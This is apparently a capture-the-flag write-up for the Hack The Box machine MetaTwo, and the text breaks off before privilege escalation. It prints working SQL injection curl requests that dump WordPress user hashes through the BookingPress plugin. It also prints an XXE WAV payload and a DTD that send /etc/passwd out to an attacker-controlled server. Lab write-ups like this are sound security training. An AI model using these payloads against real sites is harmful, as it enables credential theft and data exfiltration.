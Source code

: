 # MetaTwo Writeup - by Thammanant Thamtaranon  
- MetaTwo is an easy Linux-based machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:  
  `nmap -A -T4 -p- 10.10.11.186`  
![Nmap_Scan](Nmap_Scan.png)  
- The scan showed two open ports:
  - 21 (FTP)
  - 22 (SSH)  
  - 80 (HTTP)
  - 25764 (Unknown)
  - 52677 (Unknown)
- I then added `metapress.htb` to `/etc/hosts` for proper hostname resolution.

## Scanning & Enumeration 
- I try conncet to fpt, however it does not allow anonymous login.
- I ran a directory brute-force using `dirsearch`:  `dirsearch -u http://metapress.htb`
- However, it got timed out. Simlary with other tools like `gobuster`.
- Using burp Suite to inspect the request shown request to plugin `bookingpress` with version 1.0.10.
![Plugin](Plugin.png)

## Exploitation  
- We then search for bookingpress 1.0.10 CVE and found **CVE-2022-0739**.
- The **CVE-2022-0739** is an Unauthenticated SQL Injection (SQLi).
- We then follow the PoC instruction by first finding `_wpnonce`.
![Nounce](Nounce.png)  
- Then we make a request from the PoC:
```
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=229f792eae&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'
```
![Version](Version.png) 

- Next we run the command:
```
curl -s 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=229f792eae&category_id=33&total_service=-7502) UNION ALL SELECT user_login,user_email,user_pass,1,2,3,4,5,6 from wp_users-- -'
```
![Credentials](Credentials.png) 
- This command will extract the credentials from the database.
- We founded user `admin` and `manager`.
- We then saved the hashes into the file and run john the ripper to crack the hashes.
![Manager](Manager.png)
- We login as manager in wordpress.
- Notice the wordpress version 5.6.2 from before, we then search for CVE, and found **CVE-2021-29447**.
- The **CVE-2021-29447** is a XXE (XML External Entity injection) happened in uploading a malicious WAV audio file containing crafted metadata (XMP).
- We then create the payload.wav : `echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.16.11:8000/xx3.dtd">%remote;%init;%trick;]>\x00' > payload.wav`
- Then we create the DTD file with the content:
```
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.16.11:8000/?leak=%file;'>">
```
- We run python server and upload the payload.wav to wordpress.
![PASSWD1](PASSWD1.png)
- We then run the command `echo '...' |base64 --decode | php -r 'echo zlib_decode(file_get_contents("php://stdin"));'`
![PASSWD2](PASSWD2.png)
- We then confirm the user `jnelson`.
- I try

## Privilege Escalation  
